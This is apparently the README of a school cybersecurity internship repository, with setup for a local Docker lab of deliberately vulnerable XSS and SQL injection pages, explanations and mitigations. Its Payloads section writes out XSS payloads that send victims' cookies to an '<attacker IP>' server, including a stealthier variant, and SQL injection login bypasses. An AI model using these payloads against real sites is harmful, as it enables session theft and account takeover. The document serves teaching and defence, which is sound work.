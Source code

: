 # G. Galilei Internship Cyber security course
This repository collects tools and methodologies used during the system security internship with the students of the G. Galilei Institute.
## Start the Lab
- Install docker for windows
- Clone\download this repository
- Start docker
- Open a command prompt inside the project root directory and execute the following command:

  		docker compose up --build
		
### For XSS vulnerability
- Visit the vulnerable page at: http://localhost:9000/xss.php

### SQLi vulnerability
- Initialize the SQLite db at: http://localhost:9000/initDB.php. You should get a response with "Done"
- Visit the vulnerable page at: http://localhost:9000/sqlI.php 

## Students
1. Dario Collini
2. Andrea Di Caro
## Analyzed vulnerabilities
- XSS reflected
- XSS stored
- SQL injection

## Payloads
### Reflected
    <script>window.location.href="http://<attacker IP>:8000/a.html?c="+document.cookie</script>
### Stored
Not the best approach, generates a bunch of requests, very loud

    <img src="x" onerror=this.src='http://<attacker IP>:8000/'+document.cookie; />
    
More stealth, use this one

    <script>i=document.createElement('img');i.src='http://<attacker IP>:8000/'+document.cookie;document.body.appendChild(img)</script>
    
### SqlI
To gain access to the first account saved in the database

    a' OR 1=1 --
To gain access to an account by knowing the username

    [username]' OR 1=1 --

		

## Vulnerabilities Scenario and actions
### Steps for Vulnerability Analysis

#### 1. Information Gathering:
- **Application Observation**: Analyze the web application to identify points where user input is used to create SQL queries. These may include login forms, search forms, or any other form that interacts with the database.
- **Identifying Vulnerable Parameters**: Identify which parameters (e.g., query string, form fields, cookies) could be vulnerable to SQLi.

#### 2. Injection Testing:
- **Manipulated Input**: Inject various test payloads, such as `<script>alert(0);</script>`. A vulnerable application will run the script and display the alert.
- Once testing confirms vulnerability, the attacker may proceed with one of the following attack types:

---

### SQL Injection

**SQL Injection** occurs when attackers exploit flaws in poorly written PHP code to inject malicious code into a web application, leading to the execution of arbitrary commands on the server.

---

### Cross-Site Scripting (XSS)

**Cross-Site Scripting (XSS)** occurs when the server or application does not properly sanitize user input, allowing attackers to inject malicious scripts into web pages that will be executed in the browsers of users visiting the page.

#### There are 2 types of Cross-Site Scripting (XSS):
1. **Stored XSS**  
   Stored XSS is a type of Cross-Site Scripting where the malicious script injected by the attacker is stored on the server (e.g., in a database, file, or log).

2. **Reflected XSS**  
   Reflected XSS is a type of Cross-Site Scripting where the malicious code is not stored on the server but is instead reflected immediately in the server's response.

---

### Key Difference in Cookie Theft Methods Between Stored and Reflected XSS:

- **Stored XSS**: In this case, the attacker can redirect the user’s cookie to their own web server, which is always listening. This allows the attacker to steal the cookie every time someone visits the page.
  
- **Reflected XSS**: Here, the attacker needs the user to open a malicious link that leads to a website with a command that allows the attacker to redirect the user’s cookie toward them. This can only be done with some prior social engineering research to trick the user into clicking the link.

---

### Mitigation:

Mitigation refers to the methods we can use to make our websites secure and protected against these types of attacks.

- **Input Sanitization**: Filter user input to remove any malicious HTML or JavaScript tags.
  
- **Output Escaping**: Escape user input before displaying it on the HTML page, meaning converting special characters into sequences that are not interpreted as code by the browser.

- **Setting a Content Security Policy (CSP)**: Use a CSP to limit executable resources in the browser (such as scripts and styles) and prevent the execution of unauthorized scripts.


